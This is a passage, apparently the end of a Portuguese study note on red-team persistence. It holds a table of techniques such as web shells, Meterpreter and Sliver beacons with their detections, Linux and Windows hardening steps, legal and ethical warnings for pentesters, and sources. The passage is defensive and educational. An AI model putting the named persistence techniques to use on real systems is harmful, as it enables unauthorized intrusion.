| Registry Run key | T1547.001 | Windows | Autoruns, Sysmon EID 13 | Sysmon, EDR |
| Scheduled Task | T1053.005 | Windows | `schtasks /query`, EID 4698 | Sysmon, Windows EventLog |
| Windows Service | T1543.003 | Windows | `sc query`, EID 7045 | Sysmon, SC Manager log |
| WMI Subscription | T1546.003 | Windows | `Get-WMIObject` subscription | WMI tracing, EID 5861 |
| Web Shell PHP | T1505.003 | Linux/Win | FIM em webroot, grep por `system()` | AIDE, ModSecurity WAF |
| Meterpreter persist | T1547.001 | Windows | Autoruns + VirusTotal | Autoruns, EDR |
| Sliver beacon | T1071.001 | Multi | JA3 fingerprint, beaconing pattern | NDR, Zeek, Suricata |
| COM Hijacking | T1546.015 | Windows | Autoruns aba COM, Procmon | Sysmon EID 7, Autoruns |

---

## 🔒 Contramedidas e Hardening

> [!danger] Como se Defender

### Linux: Hardening de Persistência

```bash
# Restringir escrita em /etc/crontab e /etc/cron.d/
chmod 600 /etc/crontab
chown root:root /etc/crontab

# Monitorar authorized_keys com inotify
apt install inotify-tools
inotifywait -m -r /home /root -e modify,create --include "authorized_keys" |
  while read path event file; do
    echo "[ALERTA] $path$file modificado em $(date)"
  done

# Instalar e configurar AIDE (file integrity monitoring)
apt install aide
aide --init
cp /var/lib/aide/aide.db.new /var/lib/aide/aide.db
# Checar diariamente:
aide --check

# Habilitar auditd para monitorar crontab e SSH keys
auditctl -w /etc/crontab -p wa -k cron_modification
auditctl -w /root/.ssh/authorized_keys -p wa -k ssh_key_modification
```

### Windows: Hardening de Persistência

| Medida | Como Implementar |
|--------|-----------------|
| **Sysmon** | Instalar com config de alta cobertura (SwiftOnSecurity config) |
| **AppLocker / WDAC** | Bloquear execução de executáveis em `%TEMP%`, `%APPDATA%`, `Public` |
| **WMI Restrictions** | Auditoria de namespace `root\subscription` via GPO |
| **Credential Guard** | Protege LSASS de dump; dificulta movimento lateral |
| **Privileged Access Workstations** | Reduzir superfície de ataque em contas administrativas |
| **ASR Rules (Defender)** | Attack Surface Reduction: bloquear Office/scripts criando processos filhos |

---

## ⚠️ Considerações Éticas e Legais

> [!warning] Atenção
> - Só utilize em **ambientes autorizados** (suas próprias VMs ou lab com permissão formal)
> - Em pentests profissionais, **documentar** todos os mecanismos instalados antes de começar
> - **Remover** todos os artefatos após o teste: chaves SSH, crons, serviços, payloads
> - Guardar registro de todas as ações (timestamps, comandos, screenshots) para o relatório
> - O art. **154-A do Código Penal** tipifica invasão de dispositivo alheio: reclusão de 1 a 4 anos + multa. Agravado se for infraestrutura crítica ou dado pessoal (art. 154-A §3º)
> - **Pentest sem contrato escrito de autorização = crime**, mesmo que o cliente peça verbalmente

### Responsabilidade do Pentester

| Fase | Obrigação |
|------|-----------|
| Antes do teste | Assinar contrato com escopo, datas, IPs autorizados |
| Durante | Registrar cada ação com timestamp e evidência |
| Ao instalar persistência | Documentar: técnica, localização, como remover |
| Após o teste | Remover TODOS os artefatos, verificar remoção |
| Relatório | Incluir evidências, CVSS, recomendações priorizadas |

---

## 🔗 Tópicos Relacionados

- [[Exploração do alvo]] (fase anterior: obter o acesso inicial)
- [[Apagando rastros]] (fase posterior: limpar evidências)
- [[Escalonamento de privilégios]] (muitas técnicas de persistência exigem root/SYSTEM)
- [[Mapeamento de vulnerabilidades]] (identificar superfícies de ataque)
- **[[Projeto GovSec]]** (framework red team educacional do IFF)

---

> [!note] 📚 Fontes (2026)
> - [Red Report 2026: Top 10 MITRE ATT&CK Techniques (Picus Security)](https://www.picussecurity.com/red-report) - 80% das técnicas são evasão, persistência e C2
> - [Persistence Techniques for Red Team Operations: Full Guide (RedFoxSec)](https://www.redfoxsec.com/blog/persistence-techniques-for-red-team-operations)
> - [10 Persistence Methods Every Red Teamer MUST Master (Medium/CandyWong)](https://medium.com/@candywong_coffsec/10-persistence-methods-every-red-teamer-must-master-fd07a68b0f83)
> - [Windows Persistence via Scheduled Tasks: Red Team Perspective (SpartansSec)](https://www.spartanssec.com/post/windows-persistence-through-scheduled-tasks-a-red-team-perspective)
> - [Linux Persistence Techniques Day 9: 30 Days of Red Team (Medium)](https://medium.com/30-days-of-red-team/30-days-of-red-team-day-9-linux-persistence-techniques-surviving-in-unix-territory-d654252c61c5)
> - [Linux Red Team Persistence Techniques (Linode Docs)](https://www.linode.com/docs/guides/linux-red-team-persistence-techniques/)
> - [Sliver C2 Framework Cheat Sheet (1337skills)](https://1337skills.com/cheatsheets/sliver/)
> - [Sliver C2 Red Team Simulation Lab 2026 (VictSao Blog)](https://victsao.wordpress.com/2026/03/29/3-18-2026-simulating-attacker-behavior-with-sliver-c2-end-to-end-red-team-workflow/)
> - [MITRE ATT&CK TA0003 Persistence: Complete Detection Guide (ManageEngine)](https://www.manageengine.com/log-management/mitre-attack/persistence.html)
> - [Web Shell T1505.003 (MITRE ATT&CK - StartupDefense)](https://www.startupdefense.io/mitre-attack-techniques/t1505-003-web-shell)
> - [EncystPHP Web Shell via CVE-2025-64328 (FortiGuard Labs)](https://www.fortinet.com/blog/threat-research/unveiling-the-weaponized-web-shell-encystphp)
> - [Establish Persistence with Metasploit (LabEx)](https://labex.io/tutorials/kali-establish-persistence-with-a-metasploit-module-594345)
> - [Red Teaming in 2026: Bleeding Edge of Security Testing (CyCognito)](https://www.cycognito.com/learn/red-teaming/)
> - [Hunting for Persistence in Linux: Systemd, Timers, Cron (pberba.github.io)](https://pberba.github.io/security/2022/01/30/linux-threat-hunting-for-persistence-systemd-timers-cron/)
